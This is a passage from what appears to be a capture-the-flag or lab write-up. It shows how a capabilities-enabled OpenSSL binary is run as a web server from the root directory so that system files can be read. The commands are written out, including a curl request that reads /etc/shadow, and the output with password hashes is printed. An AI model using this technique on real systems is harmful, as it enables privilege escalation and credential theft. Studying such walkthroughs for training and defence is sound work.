 OpenSSL Web Server

In order to exploit this potential vulnerability, we must run /opt/cert/openssl. This program can be used to host a local web server. However, before running it, we need to generate a certificate as follows, leaving all the options blank:

$ cd /tmp
$ openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
Can't load /home/tom/.rnd into RNG
140554770244032:error:2406F079:random number generator:RAND_load_file:Cannot open file:../crypto/rand/randfile.c:88:Filename=/home/tom/.rnd
Generating a RSA private key
.............................................................................................................................................................................................+++++
............................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

We must run this from the root directory of the file system because OpenSSL's HTTP server interprets GET requests relative to pwd or cwd.

$ cd /
$ /opt/cert/openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP
Using default temp DH parameters
ACCEPT
...

This command shell will hang since it is actively running the web server. Let's grab another command shell through SSH:

kali@kali:~$ ssh -o StrictHostKeyChecking=no tom@192.168.120.138
...
$

Because of the capabilities of the /opt/cert/openssl binary, the web server we've launched on port 1337 is running with elevated privileges. That means that we are able to read system files, which are normally only accessible to the root user. For example, we can read /etc/shadow:

$ curl -k https://localhost:1337/etc/shadow
root:$6$l.uc4X2N$d8BE4nsw5eEN3wl.jrWIxHOS65BES386a8Q2i87xqIwYMoWq0MnVCc.rGRToKjmIhiW5Bm0RQM8VENJq7kwoq/:18571:0:99999:7:::
daemon:*:17647:0:99999:7:::
...
tom:$6$xeqOHdfk$JasGRYragbnhO2cM7R4AX2lOal20aR/WlD84MJSmgzBXeBY0Spf5Wt18S.vDwsHHvLU0wMzkSwxxFCuBLbn1r.:18571:0:99999:7:::
$

